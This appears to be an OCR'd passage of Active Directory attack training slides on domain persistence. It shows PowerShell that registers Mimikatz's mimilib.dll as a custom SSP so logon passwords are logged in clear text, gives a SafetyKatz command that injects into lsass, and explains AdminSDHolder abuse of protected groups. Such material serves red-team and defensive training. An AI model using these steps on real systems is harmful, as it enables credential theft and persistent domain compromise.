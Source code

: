 To use PSRemoting, we must force NTLM authentication:

```
Enter-PSSession -ComputerName us-dc -Authentication
Negotiate
```


#### Custom SSP

A Security Support Provider (SSP) is a DLL which provides ways for an application to
obtain an authenticated connection. Some SSP Packages by Microsoft are
– NTLM
– Kerberos
– Wdigest
– CredSSP
• Mimikatz provides a custom SSP - mimilib.dll. This SSP logs local logons, service
account and machine account passwords in clear text on the target server.

• We can use either of the ways:
– Drop the mimilib.dll to system32 and add mimilib to
~~~
HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages:
$packages = Get-ItemProperty
HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security
Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"
~~~

~~~
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -
Name 'Security Packages' -Value $packages
~~~

~~~
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name
'Security Packages' -Value $packages
~~~


– Using mimikatz, inject into lsass (Not stable with Server 2016 and 2019):

~~~
SafetyKatz.exe '"misc::memssp"'
~~~

#### ACLs – AdminSDHolder

• Resides in the System container of a domain and used to control the
permissions - using an ACL - for certain built-in privileged groups (
called Protected Groups).
• Security Descriptor Propagator (SDPROP) runs every hour and compares
the ACL of protected groups and members with the ACL of
AdminSDHolder and any differences are overwritten on the object ACL.

| Account Operators | Enterprise Admins |
|-------------------|------------------|
| Backup Operators | Domain Controllers |
| Server Operators | Read-only Domain Controllers |
| Print Operators  | Schema Admins |
| Domain Admins    | Administrators |
| Replicator      | |
Well known abuse of some of the Protected Groups - All of the below
can log on locally to DC
